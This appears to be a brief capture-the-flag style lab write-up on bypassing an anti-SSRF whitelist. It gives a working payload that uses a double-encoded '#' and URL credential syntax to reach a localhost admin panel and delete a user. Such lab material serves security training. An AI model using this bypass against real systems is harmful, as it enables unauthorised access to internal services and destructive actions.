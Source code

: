 ### Fourth Exercise 👻


![problem.PNG](/assets/SSRF/Fourth/problem.PNG)

#### **To do**
```
To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.  
```



1. You can login directly in the url with `https://username:password@[url]`

2. Search directly in url with character `#`. Ex.

![explanation.PNG](/assets/SSRF/Fourth/explanation.PNG)]



3. Try with this to access **Admin Panel** and **delete user carlos**
```bash
http://localhost%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos
```

* `%2523` -> Is the result to encod two times character **#**


You solve the lab!